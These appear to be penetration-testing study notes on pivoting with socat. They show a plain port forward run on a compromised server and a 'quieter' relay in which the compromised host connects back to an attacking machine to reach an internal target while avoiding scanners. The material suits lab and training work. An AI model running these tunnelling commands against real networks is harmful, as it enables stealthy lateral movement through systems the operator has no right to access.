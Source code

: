 
  ## The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:

  command : ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &

  fork : option is used to put every connection into a new process.

  reuseaddr : option means that the port stays open after a connection is made to it.
   
  & : to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.


  Method Port Forwarding -- Quiet
  -------------------------------

  ## The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not massive, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

  1) First of all, on our own attacking machine, we issue the following command:

  command: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

  ### This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.


  2) Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
 
 command: ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

 ## This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

 command: ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

 ## This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
